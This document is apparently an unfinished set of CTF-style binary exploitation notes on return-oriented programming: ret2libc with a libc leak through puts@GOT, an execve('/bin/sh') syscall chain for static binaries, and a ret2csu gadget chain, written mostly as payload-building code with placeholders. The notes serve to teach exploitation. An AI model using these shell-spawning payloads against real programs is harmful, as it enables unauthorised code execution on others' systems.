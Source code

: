
### in progress


ROP
	what is ROP
	how to find Gadgets (ropper)
	how to find Strings in an ELF	
	how to pivote the Stack
	
<details>
    <summary>ret2libc (dynamically linked ELF)</summary>
        <div>


		to use ret2libc we need to know two things
	
		1. the exact libc version the ELF uses
		2. the base addr of libc in the process
		

		to find the exact version of libc we can leak some GOT entrys which stores pointers to the functions in libc. 
		(we also need this for finding the base of libc in the process)

		since we have the ELF file we can do this with ease as the GOT and PLT sections are known to us (asuming PIE is off)

			
		payload = b''
		payload += b'A'*0x10			#padding
		payload += p64(pop_rdi)			#set first arg to the addr of puts@GOT
		payload += p64(puts@GOT)		#addr puts@GOT
		payload += p64(puts@PLT)		#call puts@PLT(puts@GOT)
		```

		this payload will print the libc addr of puts() in the current process.

		puts_leak = `leaked addr here`

		ok now ne know the exact addr of puts() in libc but we still dont know which libc version is used.

		we will use a libc database like https://libc.blukat.me/ to find the exact version
		libc.blucat will find the libc based of the last 3 nibbles of the leaked addr siche these will always be the same 

		`last 3 nibbles of leaked addr here` 

		### BILD VON LIBC.BLUCAT.ME einfuegen ###
		
		usually you need to leak more than one libc function addr or the addr of a known string such as "/bin/sh" to find the exact libc version.

		ok we now know the exact libc version now we can download the libc and calculate the offset from puts() to the base addr of libc in the process
		use `vmmap` to find the libc base

		```
		vmmap output here
		```
		
		know_libc_base = `libc base here`		

		offset = puts_leak - known_libc_base 		known_libc_base as it will change next time the ELF file is run (ASLR)
		libc_base = puts_leak - offset

		ok we now know the libc version and the exact libc_base inside the current process.
		now we can use libc functions such as system("/bin/sh") we can setup the args and than simply call it from libc

		1. setup the argument for system(pointer_binsh) 
		2. call the libc function system()

		payload = b''
		payload += b'A'*0x10			#padding
		payload += p64(pop_rdi)			#set first arg to /bin/sh pointer
		payload += p64(pointer_binsh)		#addr of /bin/sh\x00 in mem
		payload += p64(system)			#call the libc system function


</div>
</details>

<details>
    <summary>ret2system (statically linked ELF)</summary>
        <div>


# ret2system (statically linked ELF)
```
		`syscall(rax,rdi,rsi,rdx)`	
		we want to call `execve(pointer_binsh,0,0)` to spawn a shell

		so we need to setup a `syscall(execve(pointer_binsh,0,0))`
		
		1. find the syscall number for execve
		2. find a gadget that can write to a pointer like `mov [rdi],rdx`
		3. write b'/bin/sh\x00' to a writable addr.
		4. setup the registers and than syscall

		check this to find syscall numbers `https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86_64-64_bit`
		
		we know the syscall number is 0x3b so we want to call `syscall(0x3b,pointer_binsh,0,0)`

		we need a gadget that can write to a pointer so we can store the `/bin/sh\x00` string somewhere
		we can find such a gadget by using `ropper`

		```
		ropper /1/ mov [r??],r??
		```		

		i choose `mov [rdi],rdx` ... somethink like `mov [rax],rdx` would worked too.
		since we have to set rdi = pointer_binsh and `mov [rdi],rdx` directly writes to rdi we saved some gadgets.
		when using `mov [rax],rdx` we have to `mov rdi,rax` afterwards.



		payload = b''
		payload += b'A'*0x10			#padding

		payload += p64(pop_rax)			#set rax to 0x3b
		payload += p64(0x3b)

		payload += p64(pop_rdi)			#set rdi to a .bss addr .bss is usually `rw-`
		payload += p64(.bss)			#addr where we want to write to

		payload += p64(pop_rdx)			#set rdx to `/bin/sh\x00`
		payload += b`/bin/sh\x00`		#be carefull when you set this allways keep the 0x8 byte pad in mind e.g. when you want to call execve with `/bin/cat\x00`
		
		payload += p64(write_gadget)		#writes the content of rdx = `/bin/sh\x00` into the addr rdi = `.bss` points to
		
		payload += p64(pop_rsi)			#set rsi to 0
		payload += p64(0x00)

		payload += p64(pop_rdx)			#set rdx to 0
		payload += p64(0x00)

		payload += p64(syscall)				










```
</div>
</details>

<details>
    <summary>ret2csu(no sufficient gadgets to set rdi,rsi,rdx can be found)</summary>
        <div>
		
# ret2csu(no sufficient gadgets to set rdi,rsi,rdx can be found)
```
		the `__libc_csu_init` function is responsible to initialize libc files.
		in this function there are some interesting gadgets we can use.

		first gadget let us controll some registers with pop
		POPGADGET:

		```
     		__libc_csu_init+90	POP        RBX
        	__libc_csu_init+91	POP        RBP
        	__libc_csu_init+92	POP        R12
        	__libc_csu_init+94 	POP        R13
        	__libc_csu_init+96	POP        R14
	        __libc_csu_init+98 	POP        R15
        	__libc_csu_init+100 	RET
		```
		rbx,rbp,r12,r13,r14,r15
		and this will let us controll rdx,rsi and edi but we need to meet some conditions 
		CALLGADGET:
		```                	 
        	__libc_csu_init+64	MOV        RDX,R14
        	__libc_csu_init+67 	MOV        RSI,R13
        	__libc_csu_init+70 	MOV        EDI,R12D
        	__libc_csu_init+73	CALL       qword ptr [R15 + RBX*0x8]
        	__libc_csu_init+77	ADD        RBX,0x1
        	__libc_csu_init+81	CMP        RBP,RBX
        	__libc_csu_init+84	JNE        __libc_csu_init+64
        	__libc_csu_init+86	ADD        RSP,0x8
        	__libc_csu_init+90	POP        RBX
        	__libc_csu_init+91	POP        RBP
        	__libc_csu_init+92	POP        R12
        	__libc_csu_init+94 	POP        R13
        	__libc_csu_init+96	POP        R14
	        __libc_csu_init+98 	POP        R15
        	__libc_csu_init+100 	RET
		```
		there ase some constrains in the caller gadget 
		# 1.
		we want to pass the JNE and dont take it.
		```
		rbx = 0x00 set to 0 since it will be incremented later
		rbp = set to 1 so when compared to the incremented rbx 
		```
			```
			__libc_csu_init+77	ADD        RBX,0x1
        	__libc_csu_init+81	CMP        RBP,RBX
        	__libc_csu_init+84	JNE        __libc_csu_init+64
       	 	
       		```
        # 2
        we want to set r15 = to a valide function 






   	```
	putsgot = elf.got['puts']          
    putsplt = elf.plt['puts']
    pop_rdi = 0x00000000004011f3
    pop_rsi_r15 = 0x00000000004011f1
    ret = 0x4004e6

	def ret2csu(call,rdi,rsi,rdx):
        payload = p64(0x4011ea)         # first call popper gadget

        payload += p64(0x00)            # pop rbx - set to 0 since it will be incremented later
        payload += p64(0x01)            # pop rbp - set to 1 so when compared to the incremented rbx 
        payload += p64(0x400000)       # pop r12 #edi only 4 bytes controll
        payload += p64(rsi)            # pop r13 #rsi
        payload += p64(rdx)            # pop r14 #rdx
        payload += p64(putsgot)            # pop r15 

        payload += p64(0x4011d0)        # 2nd call caller gadget

            #__libc_csu_init+64     MOV        RDX,R14
            #__libc_csu_init+67     MOV        RSI,R13
            #__libc_csu_init+70     MOV        EDI,R12D

        payload += p64(0x00)            # add rsp,0x8 padding cause __libc_csu_init+86  ADD RSP,0x8 


            #__libc_csu_init+90     POP        RBX
            #__libc_csu_init+91     POP        RBP
            #__libc_csu_init+92     POP        R12
            #__libc_csu_init+94     POP        R13
            #__libc_csu_init+96     POP        R14
            #__libc_csu_init+98     POP        R15
            #__libc_csu_init+100    RET

        payload += p64(0x00)            # rbx
        payload += p64(0x00)            # rbp
        payload += p64(0x00)            # r12
        payload += p64(0x00)            # r13
        payload += p64(0x00)            # r14
        payload += p64(0x00)            # r15

            #__libc_csu_init+100    RET

        payload += p64(pop_rdi)        
        payload += p64(rdi)             # update rdi with correct unconstrained content
        payload += p64(pop_rsi_r15)     
        payload += p64(rsi)             # update rsi with correct unconstrained content
        payload += p64(0x00)

            #we now have this registers under controll rdi,rsi,rdx,rbx,rbp,r12,r13,r14,r15

        payload += p64(call)            # actual wanted function call
        return payload

        rop = b'A'*16
        rop += ret2csu(putsplt, 0x7ffff7f735aa, 0x00, 0x00) # call(rdi,rsi,rdx)


	```

For de-randomizing libc, we can use &GOT_TABLE, coupled with some read(), write() or send(), recv() (ie: usually available in CTF challenges)



```
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2csu_gadgets.png">
		
</div>
</details>






# BROP 

# SROP
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/sigret_frame.png">
